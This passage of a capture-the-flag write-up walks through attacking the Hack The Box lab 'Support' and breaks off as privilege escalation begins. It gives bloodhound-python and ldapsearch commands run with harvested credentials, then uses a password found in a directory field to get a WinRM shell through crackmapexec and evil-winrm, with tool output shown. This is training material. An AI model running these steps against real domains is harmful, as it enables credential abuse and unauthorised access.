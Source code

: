 ```
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174

INFO: Found AD domain: support.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.support.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 02S
```

ldapsearch will show all the items in the AD, which I can look through:
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" | less`

There’s a user named support with an interesting info field:
`info: Ironside47pleasure40Watchful`
I guess it would be the password of one of user.

Looking at the Bloodhound data, support shows up there as a member of Remote Management Users:
![](images/Pasted%20image%2020240905125823.png)

crackmapexec confirms:
```
crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'

WINRM       support.htb     5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)

```

Let's use `evil-WinRM` to connect it.
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`
Then we can get the user.txt

3, shell as SYSTEM
Looking at the Bloodhound data again, the support user is a member of the Shared Support Accounts group, which has GenericAll on the computer object, DC.SUPPORT.HTB:
![](images/Pasted%20image%2020240905130300.png)

